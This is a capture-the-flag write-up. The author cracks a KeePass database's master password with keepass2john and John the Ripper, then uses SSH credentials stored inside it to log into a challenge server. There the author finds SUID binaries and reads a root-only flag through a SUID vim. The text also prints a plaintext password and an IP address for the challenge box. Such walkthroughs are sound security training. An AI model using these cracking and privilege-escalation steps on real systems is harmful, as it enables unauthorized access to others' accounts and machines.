 # rayhanns_return

For this challenge, we are given three files: A PDF that explains the lore/backstory of our task, an ISO file, and a wordlist that seems to be a derivitive of the `rockyou.txt` wordlist.

The first thing I did was mount the ISO file to my file system to see its contents:

```
$ sudo mount -o loop CTG-2021-02-19-001.iso /mnt/disk
$ cd /mnt/disk
$ ls
lost+found  rhodgson.kdbx
```

Interesting, we have a keepass password database. Let's see if we can open it:

```
$ kpcli --kdb rhodgson.kdbx 
Please provide the master password: *************************
Couldn't load the file rhodgson.kdbx: Missing pass
```

Dang, looks like we need to know the master password.... Or do we? (Insert Vsauce music)

We were given a password list right at the start, maybe we can use that to try and crack the password. Using johntheripper's `keepass2john`, we can convert this kee pass db into a hash format that john can try to crack:

```
$ ./keepass2john /mnt/disk/rhodgson.kdbx > hash.txt
$ john --wordlist=CTG_STANDARD_WORDLIST.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1hodgson         (rhodgson)
1g 0:00:00:20 DONE (2021-02-20 18:12) 0.04803g/s 135.2p/s 135.2c/s 135.2C/s prield28..pinkphone98
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And there we go! We have the password to the kee pass file, `1hodgson`.

We can use that password and begin navigating the database.

```
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
rhodgson/
kpcli:/> cd rhodgson/
kpcli:/rhodgson> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. My Flag Box                                               34.216.68.186
kpcli:/rhodgson> show -f My\ Flag\ Box 

 Path: /rhodgson/
Title: My Flag Box
Uname: ubuntu
 Pass: As.3S;d0cvAS3kmm3VI(N
  URL: 34.216.68.186
Notes: This aws thing is maybe useless cause I was messing with permissions, and now I cannot print the flag, and dont understand what I did when I was messing around with SUID bits. https://imgflip.com/i/4yladl

kpcli:/rhodgson> 
```

We have an aws box with the password!!  Default user on aws ubuntu boxes is `ubuntu`, so let's try to SSH into `34.216.68.186` as that user and with that password:

```
ubuntu@ip-172-31-24-45 / % ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
```

We are in! Let's start looking for the flag:

```
ubuntu@ip-172-31-24-45 ~ % ls -lah
total 180K
drwxr-xr-x 7 ubuntu ubuntu 4.0K Feb 21 02:48 .
drwxr-xr-x 4 root   root   4.0K Feb 18 10:27 ..
-rw------- 1 ubuntu ubuntu   61 Feb 20 03:44 .Xauthority
-rw------- 1 ubuntu ubuntu 1.8K Feb 20 04:10 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4.0K Feb 18 09:53 .cache
drwx------ 3 ubuntu ubuntu 4.0K Feb 20 06:37 .config
-rw------- 1 root   root     28 Feb 19 02:56 .flag

ubuntu@ip-172-31-24-45 ~ % cat .flag
cat: .flag: Permission denied
```

After a little digging, I was able to find `.flag` hidden in the home directory of ubuntu. But the file is only readable by root :/

Usually with boxes like this, the first thing I look for is any SETUID binarys that I could use to priv esc or read certain files, so let's try that:

```
ubuntu@ip-172-31-24-45 ~ % find / -perm -4000 2>/dev/null           
...
/usr/bin/at
/usr/bin/sudo
/usr/bin/vim.basic
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Sweet! We have vim as a SETUID, that means we can just read the flag doing `vim .flag` and be able to read its contents:

`osu{rAyh44n_is_b4d_@_0ps3c}`




